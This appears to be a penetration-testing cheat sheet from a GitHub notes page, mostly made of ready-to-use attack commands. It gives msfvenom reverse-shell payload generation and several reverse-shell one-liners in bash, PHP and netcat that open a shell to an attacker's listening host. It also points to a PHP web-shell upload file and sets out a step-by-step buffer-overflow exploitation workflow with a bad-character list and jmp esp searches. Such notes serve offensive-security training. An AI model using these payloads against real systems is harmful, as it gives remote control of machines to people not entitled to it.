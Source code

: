 ```yaml
---
title: Exploitation
---
```


[Home](./)

_Finding vulnerabilities and turning them into usable exploits.._

## MSFVenom Reverse Shell Payloads
### Generate Payloads

```bash
msfvenom -p $PAYLOAD LHOST=$LHOST LPORT=$LPORT [-e $ENCODER [-i $ROUNDS]] [-b $BADCHARS] [-f $FORMAT] [-o $FILENMAE]
```

### Payloads

| **Windows**   |                                   |
|:--------- 	|   -----------------------------:	|
|   Staged  	| ``windows/shell/reverse_tcp`` 	|
| Stageless 	| ``windows/shell_reverse_tcp`` 	|

<br/>

| **Linux**     |                                   |
|:--------- 	|   -----------------------------:	|
|   32bit   	| ``linux/x86/shell_reverse_tcp`` 	|
| 64bit      	| ``linux/x64/shell_reverse_tcp`` 	|

<br/>

#### Encoders
``x86/shikata_ga_nai``

## Bash Reverse Shells
```bash
0<&196;exec 196<>/dev/tcp/$LHOST/$LPORT; sh <&196 >&196 2>&196
```
```bash
bash -i >& /dev/tcp/$LHOST/$LPORT 0>&1
```

## PHP Reverse Shells
### One Liner
```php
<?php $sock = fsockopen($LHOST,$LPORT); $proc = proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock), $pipes) ?>
```
### File Upload
Kali File Location: `/usr/share/webshells/php/php-reverse-shell.php` <sup><sub>[[archive](files/php-reverse-shell.php)]

## Netcat Reverse Shells
### Unix
```bash
nc -e /bin/sh $LHOST $LPORT
```

### OpenBSD
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc $LHOST $PORT >/tmp/f
```

## Buffer Overflows

[Buffer Overflow POC](./assets/bof-poc.py)

[Stack Frame Cheatsheet](./assets/stack-frame-cheatsheet.png)

### 1. Finding the Return Address

Create a unique pattern:

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l [no of bytes]
```

```bash
pwn cylic [no of bytes]
```

Crash the program, get the EIP at the that crashed it:

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q [value of ra]
```

```bash
pwn cyclic -l [value of ra]
```

### 2. Bad Characters

A Character is defined as a 'bad' character if, when looking in the debugger's memory map, it is not found in buffer or it truncates the payload

```bash
badchars = "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```

### 3. Finding Useful Instructions

**Finding opcodes from Assembly:**

```bash
/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
```

i.e. jmp esp == “\xff\xe4”

**Finding occurances of opcodes in memory:**

```bash
!mona modules
```

- Find module with no DEP and ASLR (all except last column false)

```bash
!mona find -s "xff\xe4" -m target.dll
```

```bash
!mona find -s "\xff\xe4"
``` 
- use if nothing shows up, very slow and may crash idb

### Miscellaneous Tips
- Restart the debugger with each test
- Use nano
- Bad characters in instructions and addresses
- Set breakpoints